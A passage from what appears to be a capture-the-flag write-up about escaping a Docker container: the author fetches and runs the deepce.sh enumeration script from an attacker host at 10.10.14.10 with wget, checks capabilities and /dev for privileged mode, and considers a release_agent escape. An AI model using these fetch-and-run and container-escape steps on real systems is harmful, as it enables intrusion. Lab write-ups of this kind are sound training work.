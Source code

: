 
### Step 4
Trying to escape this container we can upload `deepce.sh` to get some quick information:
```bash
# wget http://10.10.14.10/deepce.sh
# chmod +x deepce.sh
# bash deepce.sh
[... snip ...]
[+] Dangerous Capabilities .. Yes
Current: cap_dac_override
Bounding set =cap_dac_override
Current IAB: !cap_dac_read_search,!cap_sys_module,!cap_sys_ptrace,!cap_sys_admin
[+] Privileged Mode ......... Unknown

[+] Docker sock mounted ....... No
[+] Other mounts .............. No
```

To verify if we're in a privileged mode or not, we can simply `ls -al /dev`, if privileged all devices should be accessible and we can escape by mounting the host disk. If not privileged only a limited amount of devices are shown.

```bash
# ls -al /dev	
total 4
drwxr-xr-x 5 root root    360 Sep 12 02:16 .
drwxr-xr-x 1 root root   4096 Sep 14 02:15 ..
crw--w---- 1 root tty  136, 0 Sep 12 02:16 console
lrwxrwxrwx 1 root root     11 Sep 12 02:16 core -> /proc/kcore
lrwxrwxrwx 1 root root     13 Sep 12 02:16 fd -> /proc/self/fd
crw-rw-rw- 1 root root   1, 7 Sep 12 02:16 full
drwxrwxrwt 2 root root     40 Sep 12 02:16 mqueue
crw-rw-rw- 1 root root   1, 3 Sep 12 02:16 null
lrwxrwxrwx 1 root root      8 Sep 12 02:16 ptmx -> pts/ptmx
drwxr-xr-x 2 root root      0 Sep 12 02:16 pts
crw-rw-rw- 1 root root   1, 8 Sep 12 02:16 random
drwxrwxrwt 3 root root    120 Sep 14 01:46 shm
lrwxrwxrwx 1 root root     15 Sep 12 02:16 stderr -> /proc/self/fd/2
lrwxrwxrwx 1 root root     15 Sep 12 02:16 stdin -> /proc/self/fd/0
lrwxrwxrwx 1 root root     15 Sep 12 02:16 stdout -> /proc/self/fd/1
crw-rw-rw- 1 root root   5, 0 Sep 12 02:16 tty
crw-rw-rw- 1 root root   1, 9 Sep 12 02:16 urandom
crw-rw-rw- 1 root root   1, 5 Sep 12 02:16 zero
```

We're missing a lot of devices, so we're not privileged. 

Looking on the capabilities, we only have `dac_override` that stands out, this allows us to write to any file, something that is expected when `root` so we can skip this. 

Googling around for further escapes I come across [this PDF](https://i.blackhat.com/USA-19/Thursday/us-19-Edwards-Compendium-Of-Container-Escapes-up.pdf) from blackhat where `release_agent` escape is mentioned on page 57. I've never heard of this before, and looking on the commands we can see we'll not be able to run it as we're not allowed to use `mount`:
